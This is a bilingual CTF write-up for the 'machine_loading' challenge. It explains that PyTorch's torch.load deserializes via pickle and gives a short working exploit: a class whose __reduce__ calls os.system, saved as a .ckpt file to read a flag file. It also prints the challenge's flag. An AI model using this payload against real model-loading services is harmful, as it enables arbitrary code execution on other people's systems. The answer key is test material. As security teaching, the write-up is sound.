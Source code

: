 ```yaml
---
title: "machine_loading"
level: 4
flag: "FLAG{Use_0ther_extens10n_such_as_safetensors}"
writer: "Mikka"
badge: true
---
```


## 問題文

機械学習モデルを試すことができるサイトを作っています。

まだ未完成ですが、モデルをロードする部分は先に作成しました。

モデルの形式は、みんなよく使っている.ckptにします！

I'm creating a website where users can test machine learning models.

It's not completed yet, but I've already created the part that loads a model.

The format of the model will be .ckpt, which we all use a lot!

<https://machine-mis.wanictf.org>

## 解法

ググって、torch.load()には脆弱性があり、脆弱性の原因がpickleにあることに辿りつく。

これはtorch.load (torch.save)の内部処理がpickleであるため (大雑把な表現)。

torch.loadではtorch.saveにより生成されたファイルを読み込むが、これはPythonのclassをそのままオブジェクトとして保存するため、任意コード実行ができる。

exploitの実装としてはtorch.loadの脆弱性としては文献が少ないため、pickleのdump, loadの脆弱性の文献を探すとヒットする。

任意コード実行の用意ができたら、output.txtの内容を表示させる機能が既にあることが配布ファイルから分かるため、
```
ls > ./output_dir/output.txt
cat ./flag.txt > ./output_dir/output.txt
```
とすることでFLAGを表示できる。


Search and find that there is a vulnerability in torch.load() due to the use of pickle in its internal processing.

torch.load() reads files generated by torch.save(). Since it saves Python class objects as they are, it can be used to execute arbitrary code.

Note that it's torch.save, not pickle.dump. However, you'll find it easier to find references for pickle.

When you're ready to execute arbitrary code, execute the following code.
```
ls > output.txt
cat ./flag.txt > ./output.txt
```
Since there is already a function to display the contents of output.txt, FLAG will be displayed.


exploitは以下の通りである。
exploit is like this:
```python
import os
import torch

class Exploit(object):
    def __reduce__(self):
        cmd = ('cat ./flag.txt > ./output_dir/output.txt')
        # cmd = ('ls > ./output_dir/output.txt')
        return os.system, (cmd,)

# torch.save(Exploit(), 'solver_ls.ckpt')
torch.save(Exploit(), 'solver_cat.ckpt')
```
